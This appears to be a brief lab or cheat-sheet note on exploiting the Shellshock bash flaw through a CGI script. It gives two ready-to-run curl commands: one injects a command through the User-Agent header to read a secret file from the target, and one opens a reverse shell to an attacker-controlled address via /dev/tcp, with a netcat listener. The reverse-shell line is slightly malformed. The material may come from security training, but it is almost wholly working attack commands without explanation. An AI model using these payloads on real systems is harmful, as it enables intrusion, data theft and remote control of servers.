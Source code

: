 ## Shellshock Attack via CGI
```
$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /tmp/secret_2016015878.txt'" http://{target_ip}/cgi-bin/test.cgi
```

## Get Reverse Shell
```
$ nc -lv {PORT} # Terminal 1

$ curl -A "() { :; }; /bin/bash -i /dev/tcp/{MY_IP}/{PORT} 0<&1 2>&1" http://{target_ip}/cgi-bin/test.cgi

```
